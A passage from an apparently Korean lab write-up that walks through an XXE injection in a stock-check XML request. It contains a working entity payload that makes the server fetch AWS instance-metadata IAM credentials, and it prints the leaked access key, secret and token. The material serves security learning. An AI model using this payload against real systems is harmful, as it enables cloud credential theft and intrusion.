 ```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 27

"Invalid product ID: admin"
```

## 6차 시도 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

SSRF로 억세스키 정보를 얻어내는데 성공했다!

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 552

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2023-01-14T23:56:27.356844044Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "2mR1bY0TY5xzfuZ7Y5NY",
  "SecretAccessKey" : "OBQgv7208RWjcGbJxcMybYKNcH5LQIJzArFUV8NW",
  "Token" : "UboJAgGmpFtNAqNESOyr7243VgJbZQ2mRQtszm0joT2EGz4SWN3Hy1OBDkclMyvPzbfgC6Qvj2ylU9WYTI8PwG0SYbL72g4u66fShsWRbn58uK2KMgrbVTZc58YmOfUKIjPGTUYyt5xBSB7Vuk1Sz5x2vzPBF2jXwb4ndAEatKNxXZ7zmVVcmLVTZACtvvJetrJ8bcPPAIG36hmder98uLwGt5cymEzdDfwmcpUaFl4PEuKkaq0zevlQrj3TbX7S",
  "Expiration" : "2029-01-12T23:56:27.356844044Z"
}"
```